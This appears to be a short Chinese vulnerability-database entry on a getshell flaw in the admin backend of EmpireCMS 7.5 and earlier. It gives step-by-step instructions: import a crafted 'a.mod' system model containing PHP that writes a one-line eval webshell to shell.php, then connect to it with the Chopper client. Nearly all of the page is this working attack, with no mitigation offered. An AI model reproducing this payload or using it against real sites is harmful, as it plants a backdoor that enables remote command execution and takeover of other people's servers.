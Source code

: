 ```yaml
---
title: 'EmpireCMS V7.5后台getshell漏洞'
date: Wed, 09 Sep 2020 16:39:03 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <= 7.5

### 漏洞验证

1.进入后台如下界面，点击导入系统模型 ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0getshell%E6%BC%8F%E6%B4%9E/15996690221.png) 2.构造文件a.mod,内容如下

```
<?php file_put_contents("shell.php","<?php @eval(\$_POST[cmd]);?>");?>
```

3.上传文件a.mod ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0getshell%E6%BC%8F%E6%B4%9E/15996691631.png) 4.查看文件已经有shell.php了，菜刀连接即可 ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0getshell%E6%BC%8F%E6%B4%9E/YZ2MSEV1TXX7J08ZXCA01.png)